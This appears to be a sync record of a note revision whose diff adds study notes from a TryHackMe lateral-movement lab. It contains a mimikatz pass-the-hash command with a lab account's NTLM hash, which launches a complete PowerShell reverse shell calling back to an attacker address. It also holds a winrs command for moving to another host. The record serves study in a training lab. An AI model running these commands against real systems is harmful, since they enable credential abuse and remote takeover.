 id: b238f4a385d4445ea67763e5d319fffb
parent_id: 0de65cb16b894156bd49683c92d89488
item_type: 1
item_id: 7a17f0881b6947d484027650987381ef
item_updated_time: 1658226530741
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\".exe\"],[-1,\" \"],[0,\" 10.50.6\"],[-1,\"5.78 900\"],[1,\"1.104 111\"],[0,\"1\\\"`\\\n\"]],\"start1\":792,\"start2\":792,\"length1\":25,\"length2\":25},{\"diffs\":[[0,\"5556\\\"`\\\n\\\n\"],[1,\"### Powershell command\\\n\\\n`sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /rc4:533f1bd576caa912bdb9da284bbc60fe /run:\\\"powershell -nop -c \\\\\\\"$client = New-Object System.Net.Sockets.TCPClient('10.50.61.104',1111);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\\\\\\\"\\\"`\\\n\\\n\"],[0,\"Remember\"]],\"start1\":3157,\"start2\":3157,\"length1\":16,\"length2\":671},{\"diffs\":[[0,\"ll execution\"],[1,\"\\\n\\\nAfter getting the shell, we have to run the winrs.exe command to enter THMIIS\\\n\\\n> winrs.exe -r:THMIIS.za.tryhackme.com cmd\"]],\"start1\":3951,\"start2\":3951,\"length1\":12,\"length2\":135}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-19T10:37:16.144Z
created_time: 2022-07-19T10:37:16.144Z
type_: 13
